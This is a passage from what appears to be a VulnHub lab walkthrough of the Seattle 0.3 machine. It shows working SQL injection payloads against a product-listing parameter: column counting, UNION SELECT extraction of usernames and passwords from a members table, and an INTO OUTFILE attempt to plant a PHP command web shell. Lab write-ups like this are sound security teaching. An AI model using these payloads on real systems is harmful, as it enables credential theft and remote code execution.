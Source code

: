 ![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-12-VulnHub-Seattle0.3/2021-11-12-VulnHub-Seattle0.3%2009:52:38.png)

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-12-VulnHub-Seattle0.3/2021-11-12-VulnHub-Seattle0.3%2009:53:03.png)

## Clothing

Let's go to clothig tab now

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-12-VulnHub-Seattle0.3/2021-11-12-VulnHub-Seattle0.3%2009:58:04.png)

Again, we possibly get sqlinjeciton here

With a single quote we trigger the error

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-12-VulnHub-Seattle0.3/2021-11-12-VulnHub-Seattle0.3%2009:58:59.png)

We got 5 columns

```
type=2+ORDER+BY+5+--+-
```

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-12-VulnHub-Seattle0.3/2021-11-12-VulnHub-Seattle0.3%2010:00:17.png)

```
type=2+ORDER+BY+6+--+-
```

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-12-VulnHub-Seattle0.3/2021-11-12-VulnHub-Seattle0.3%2010:00:53.png)

We found the vulnerable place

```
type=2+UNION+SELECT+1,2,3,4,5+--+-
```

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-12-VulnHub-Seattle0.3/2021-11-12-VulnHub-Seattle0.3%2010:02:35.png)

The same way before, we extract the username and pass

```
type=2+UNION+SELECT+1,2,username,4,5+FROM+tblMembers--+-
type=2+UNION+SELECT+1,2,password,4,5+FROM+tblMembers--+-
```

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-12-VulnHub-Seattle0.3/2021-11-12-VulnHub-Seattle0.3%2010:03:21.png)

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-12-VulnHub-Seattle0.3/2021-11-12-VulnHub-Seattle0.3%2010:03:56.png)

### Write Files

Here we could try to write a php malicious on the server to get RCE

Seems that we have no permission

```
type=2+UNION+SELECT+1,2,'system($_GET[\'c\']);+?>',4,5+INTO+OUTFILE+'/var/www/html/shell.php'--+-
```
